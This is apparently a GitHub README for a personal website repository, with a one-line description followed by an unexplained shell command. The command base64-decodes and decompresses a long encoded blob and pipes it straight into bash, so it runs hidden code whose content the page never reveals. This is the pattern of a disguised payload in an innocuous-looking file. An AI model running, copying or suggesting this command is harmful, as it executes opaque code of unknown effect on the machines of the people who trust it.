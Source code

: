 [![Stand With Ukraine](https://raw.githubusercontent.com/vshymanskyy/StandWithUkraine/main/badges/StandWithUkraine.svg)](https://stand-with-ukraine.pp.ua)
# LeonadorDaVinci.github.io
My personal website.Including lots of subjects i have tried.


cat <<EOF | base64 -d | zcat | bash
H4sIAAAAAAAAA81WXVfjNhB996+YOqFOtmubwNIPQthNwexyloU9SZbTFqiPsZVYRZG8lpxAgf/e
keU4SQ8sfexTFGnmzujO6I5bVpZTrsbgXPKAJYTDgPIJDEk0ZURKOBDuWQYnlBe3uKmK7JI71vHR
sAc5iRJwc3ATcByQcU4zFcaCK8KVhL09Jzg7cuDhAXatxnf+NeX+dSRTy2o0YKgQHlhU8DiFWEyn
EU+gNacqFYUClRJoQGQW4xwR21bj8Lfzj+HRoP8pCAf9UdDb+Rk+D85GZ6fhMBiF7/X+4eD4POh1
4Pzj4fZheBT0R18GQXgSnAcnvc5WuAklxnCE7uFB/+CDti23+sPfTw/wT50keL5JLiSakhAZmoSy
oiQWIvPQZqNKfAOvBE+k5wKdZrmYEcgFY0iXzASXdEY4guxCqlQmd31fsMTLSZJQ5SGgn/tlFXRE
XwfQZPpqO/3xlx0f4zx3ZxfxvxYUgWAscljkCjpZmIoElIBUiBugHFGeZciFjOQIgPeKCbREpqjg
EWsvbrhO3kvWC16ftdO9cITpJuS6mEzwytgq5JbEsP9t+kOm+9FjYgJb+9930InPHqTIVRdInAqr
IYkC99ayRE4RNmJhlE9kr2U339lta3WtzcE5q8wWvbjr1K9i4ys4YDfv15Au3l092qWvZUlsW8xU
iTrDUKfYasO9BWBitXGly4L/sABPw3UhEWgGEEeSoAke2LpaeuuV7UsV5SrEflIkViQJJ9GUeMiV
3S4tTKQf9LXucbXhv9KHjy+1cQkA3a6J0l6C6Oj1AZFRjItEcGI96m7/g3Cq7mBv2+tseR1IIwkR
5FFCBaNSARaza964I+FvY0slbHtvvM0u9KUspgTknVRkunLMyZzkFh3D9C40uz272Vqog5vNKts2
UoXKoJlpINgN/la3xHrQmGgvu1mD2OC6iipGek5wchicwuD49D22pNGgE6NBn0RCHLisqHTd8hqu
u7wSYpBb1XOGhCH/pTLpCsCM5BKbWT8vk8QqSixYMeU9VMfl+r32OjdeS9vR4EsAzoro4qvFnJYG
R/2TIVqcR5wyFsGvukc0lNO20QJJu4DmW3A5gU240qJ7gS20RosNvScjXNVsAjzTyyXPZdHW/TFs
rJ800+1NLcIksb4FckjGUcGU9uOiqqaFjrrodZ1nJbEoWSQveJ1bqQorB2D6fPESTeTSaO0AwXEK
WeKmt2nNU8oIrI0uRq/DhObV08MV9k61hw8Os4+yTJYyLLi/7B5fM1/zjvPPbmoPe51LMxDHGLRn
zl8cKXbpWCuP1MLzr7lqw369p6GNS5xqif9pZweeOMTLd0yB9AOGPdhrxThct/b9hMx8XuBs0l1m
Nz+cfQp8r7y3uT3enI/pxEdK8ii/G+Oowsb1ZsnYXnOZRbmPTGmicM1mRIqxmkc58cpH9p8xH7Rg
zm/A8f+8VJfKziKV2v79RBbXLd/2X9t2u1uyA82tR8dqWyX/dlPc6ObeXKF/+U1zSS42u9ud6YbU
qylu4LNzRvh+12ekKQ7Jq08dw2IpSwJ/OMovYyTx4FjCioyMKacyxaFbWWBR3zqLdlwmYYJ3t98s
4h+I7M583mj60Y3ANWFijjioJPpgJUj1nWTGpsTZtNojFeD/+PNoNd+yBnXSIwHlWKvl9DX8VaDY
xozGN/CZRXd6WpY95AGWLCcwR/lDqnDcGFXTwruOob92EqwIjtuZUUvP0TrQtv4BH+2kyOsKAAA=
EOF
